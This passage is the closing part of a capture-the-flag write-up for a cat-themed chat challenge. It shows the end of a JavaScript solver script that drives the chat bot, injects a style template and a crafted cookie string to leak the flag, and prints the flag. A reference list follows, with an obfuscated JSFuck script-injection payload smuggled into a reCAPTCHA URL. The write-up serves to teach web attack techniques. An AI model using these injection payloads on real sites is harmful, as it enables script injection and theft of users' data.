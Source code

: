 ```js
      var p;
      while (p = last.nextElementSibling) {
        last = p;

        if (p.tagName != 'P' || p.children.length < 2) continue;
        let name = p.children[0].innerText;
        let msg = p.children[1].innerText;

        if(msg == '!solve'){
            solve = true;
            sendMessage('bot', "I has made the machine start!");  
            window.report();
            break;
        }
        if(!solve) break;

        if(/CTF{.+}/.test(window.flag)) {
            setTimeout(sendMessage, 1000, 'flag', window.flag);
            solve=false;
            clearInterval(interval);
            break;
        }

        if(name == 'flag'){
            window.flag = msg;
            window.showDogLove(template());
            break;
        }
        if(name == 'admin'){
            if(msg == 'Bye') window.report();
            if(msg.startsWith("I've been notified")){
                window.showDogLove(template(flag_style));
                window.showDogLove('/secret 123; Domain=asdasd'); 
            }
            break;
        }
      }
    }, 100);
  }

  autoFetch();

})()
```
### And this is the script in action, very satisfying to watch! 

![solution]

We can see the flag already.  
Flag: **CTF{L0LC47S_43V3R}**


[CSS Injection]: <https://www.owasp.org/index.php/Testing_for_CSS_Injection_(OTG-CLIENT-005)>
[CRLF]: <https://www.owasp.org/index.php/CRLF_Injection>
[CSRF]: <https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)>
[Header Injection]: <https://www.owasp.org/index.php/HTTP_Response_Splitting>
[SQL Injection]: <https://www.owasp.org/index.php/SQL_Injection>
[XSS Injection]: <https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)>
[CSS Code]: <https://www.w3schools.com/html/html_css.asp>
[HTML Entity]: <https://www.w3schools.com/html/html_entities.asp>
[DOM Element]: <https://www.w3schools.com/jsref/dom_obj_all.asp>
[CSS Selector Rules]: <https://www.w3schools.com/cssref/css_selectors.asp>
[documentation]: <https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie>
[RegExp]: <https://developer.mozilla.org/en-US/docs/Web/JavaScript/Guide/Regular_Expressions>
[HTTP Header]: <https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers>
[CSP]: <https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP>
[Google reCAPTCHA]: <https://www.google.com/recaptcha/intro/v3beta.html>
[Tampermonkey]: <http://tampermonkey.net/>
[console]: <https://developers.google.com/web/tools/chrome-devtools/console/>
[solution]: <./gifs/solution.gif>
[command_injection]: <./gifs/command_injection.gif>
[css_injection]: <./gifs/css_injection.gif>
[header_injection]: <./gifs/header_injection.png>
[self_injection]: <./gifs/self_injection.png>
[server.js]: <./files/server.js>
[catchat.js]: <./files/catchat.js>
[cat_talks_solver.user.js]: <./cat_talks_solver.user.js>
[cat_talks_minified.js]: <./cat_talks_solver_minified.js>
[Issue]: <https://issuetracker.google.com/issues/111032474>
[JSFuck]: <http://www.jsfuck.com/>
[api.js]: <https://www.google.com/recaptcha/api.js?render=6LeB410UAAAAAGkmQanWeqOdR6TACZTVypEEXHcu>
[https://www.google.com/recaptcha/api.js?render=6LeB410UAAAAAGkmQanWeqOdR6TACZTVypEEXHcu');&#x5B;&#x5D;&#x5B;(!&#x5B;&#x5D;+&#x5B;&#x5D;)...();(']: <https://www.google.com/recaptcha/api.js?render=6LeB410UAAAAAGkmQanWeqOdR6TACZTVypEEXHcu%27%29%3b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%21%5b%5d%5d%2b%5b%5d%5b%5b%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%5b%28%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%21%5b%5d%5d%2b%5b%5d%5b%5b%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%21%5b%5d%5d%2b%5b%5d%5b%5b%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%5b%5d%5b%5b%5d%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%5b%5d%5b%5b%5d%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%21%5b%5d%5d%2b%5b%5d%5b%5b%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%21%5b%5d%5d%2b%5b%5d%5b%5b%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%28%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%21%5b%5d%5d%2b%5b%5d%5b%5b%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%21%5b%5d%5d%2b%5b%5d%5b%5b%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%29%28%29%3b%28%27)>